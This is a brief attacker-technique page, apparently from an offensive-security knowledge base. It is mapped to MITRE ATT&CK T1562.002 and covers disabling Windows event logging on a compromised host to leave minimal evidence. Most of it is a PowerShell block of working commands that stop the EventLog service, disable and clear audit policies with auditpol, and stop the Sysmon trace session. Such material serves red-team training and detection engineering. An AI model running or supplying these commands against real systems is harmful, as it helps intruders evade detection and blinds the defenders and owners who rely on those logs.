 ```yaml
---
description: MITRE ATT&CK, Defense Evasion, Sub-technique T1562.002
---
```


# Disable Windows Event Logging

Disabling Windows event logging allows for an attacker to operate on a compromised host while leaving minimal evidence behind.&#x20;

### Methods

```powershell
# Disable the EventLog service with PowerShell:
Stop-Service -Name EventLog

# Disable auditing for the Account Logon category:
auditpol /set /category:"Account Logon" /success:disable /failure:disable

# Clear the audit policy
auditpol /clear /y
auditpol /remove /allusers

# Disable Sysmon
## https://twitter.com/_batsec_/status/1327386867365457920?s=20&t=rMzsQI6ENH2SYVVaTYTqAA
logman stop EventLog-Microsoft-Windows-Sysmon-Operational -ets
```

### References

{% embed url="https://attack.mitre.org/techniques/T1562/002/" %}
